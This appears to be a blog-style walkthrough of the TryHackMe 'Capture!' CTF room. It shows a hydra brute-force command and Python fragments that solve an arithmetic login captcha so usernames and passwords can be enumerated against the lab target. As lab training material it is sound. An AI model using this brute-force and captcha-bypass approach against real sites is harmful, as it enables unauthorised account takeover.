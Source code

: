 
# Capture! CTF from TryHackMe Walkthrough

Welcome! Thanks for checking out my walkthrough. This room was simple to understand, but needed a little bit of custom automation that could potentially take longer than some rooms. I will walkthrough what I did in order to crack the username and password for this website.


## Recon

Included in the room was a zip file which included two text files: `usernames.txt` and `passwords.txt`. This pretty much told me from the start that I would be cracking some usernames and passwords.

When I first saw the login screen on the web application, my assumptions were confirmed.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/1.png?text=First+Pic)

I saw trying to login with wrong credentials left an error at the bottom of the page.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/2.png?text=Second+Pic)

In order to see what was going on under the hood, I opened up Burp Suite and checked out the raw HTTP request. I could see the data sent and what the response was from the server.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/3.png?text=Third+Pic)

With the information I gathered I decided to use [hydra](https://github.com/vanhauser-thc/thc-hydra) to try to crack both usernames and passwords. First trying to crack the usernames, I entered the command:
```bash
hydra -L usernames.txt -p password -t 64 -s 80 10.10.204.24 http-post-form "/login:username=^USER^&password=^PASS^:Error\: The user " 
```
Here I used the `usernames.txt` to enumerate the usernames. After trying this for a few minutes, I noticed that this wasn't returning what I would hope. After troubleshooting hydra and trying to figure out what potential command mistake I made, I looked at the website again only to find that the login page had changed!

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/5.png?text=Fifth+Pic)

A captcha! Uh-oh. I've never dealth with breaking one of these before. After playing around in Brup Suite a while longer, I learned that the captcha from the previous page was the answer for the new login page. So the data needed to post correctly would be `username`, `password`, and `captcha`. In order to crack this login, it seems that I would have to write a custom script.

## Scripting

From what I learned about the web application, I had to create a script that would do the follwoing:

 - [ ]  Load both `usernames.txt` and `passwords.txt` into the program.
 - [ ]  Trigger the captcha.
 - [ ]  Find way to identify the elements in the captcha:
   - [ ]  Opperands
   - [ ]  Opperant
 - [ ]  Send correct captcha to the server while enumerating `usernames.txt`.
 - [ ]  Once username is found, enumerate `passwords.txt`
 - [ ]  Print out correct username and password.

I used these tasks to break about my code into smaller parts. The actual code is available at the top of this page, but you can also access it [here](https://https://github.com/wsmaxcy/capture/capture.py).

 - [X]  Load both `usernames.txt` and `passwords.txt` into the program.
```
# load list of usernames
def load_users():
	users = list()
	with open("usernames.txt") as f:
		for line in f:
			users.append(line.rstrip('\n'))
	print('[+] Loaded ' + str(len(users)) + ' usernames to attempt.')
	return users

# loads list of passwords
def load_passwords():
	passwords = list()
	with open("passwords.txt") as f:
		for line in f:
			passwords.append(line.rstrip('\n'))
	print('[+] Loaded '+ str(len(passwords)) + ' passwords to attempt.')
	return passwords

```

- [x]  Trigger the captcha.
```
# sends 10 requests in order start the captcha
for i in range(10):
	data = {
	'username': 'username',
	'password': 'password'
	}
	r = requests.post(url,data=data)
	print("[+] Sent "+ str(i+1) + "/10 requests to trigger captcha.", end = '\r')
```
 - [x]  Find way to identify the elements in the captcha:
   - [x]  Opperands
   - [x]  Opperant
```
# username and password
person = ''
password = ''

# data used for post request
	length = len(password) -1
	data = {
	'username': username,
	'password': password,
	'captcha': cap
	}

	# Data used to find captcha
	r = requests.post(url,data=data)
	eq = r.text[1839 + length:1847 + length]
	
	# if statement that returns when the page is authenticated
	if eq == '':
		print('[+] Password found: ' + password)
		return -1

	num1 = int(eq[:3])
	num2 = int(eq[6:8])
	opp = eq[4]

    # finding out which operator to use for captcha equasion
	if opp == '+':
		cap = num1 + num2
	elif opp == '-':
		cap = num1 - num2
	else:
		cap = num1 * num2

    return cap
```
 - [x]  Send correct captcha to the server while enumerating `usernames.txt`.
 - [x]  Once username is found, enumerate `passwords.txt`
```
# iterates through usernames list
for name in users:
	cur = send_request(name, 'password', cur)
	if cur == -1:
		person = person + name
		break;

passwords = load_passwords()

# iterates through password list
for p in passwords:

	cur = last_request(person, p, cur)
	if cur == -1:
		password = password + p
		break
```
- [x]  Print out correct username and password.
```
# final print of username and password
print('[+] Username: ' + person)
print('[+] Password: ' + password)
```

After a lot of trial and error building the script, it ended up cracking both the username and the password.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/6.png?text=Sixth+Pic)

When I logged on with the information, I got the flag.

![App Screenshot](https://willmaxcy.com/assets/imgs/capture/7.png?text=Sixth+Pic)

Thanks for checking out my writeup! It's my first one, so if there are any comments or criticisms, I would love to hear them.


## Feedback

If you have any feedback, please reach out to me at will@willmaxcy.com.



[![portfolio](https://img.shields.io/badge/my_portfolio-000?style=for-the-badge&logo=ko-fi&logoColor=white)](https://willmaxcy.com/)
[![linkedin](https://img.shields.io/badge/linkedin-0A66C2?style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/willmaxcy)
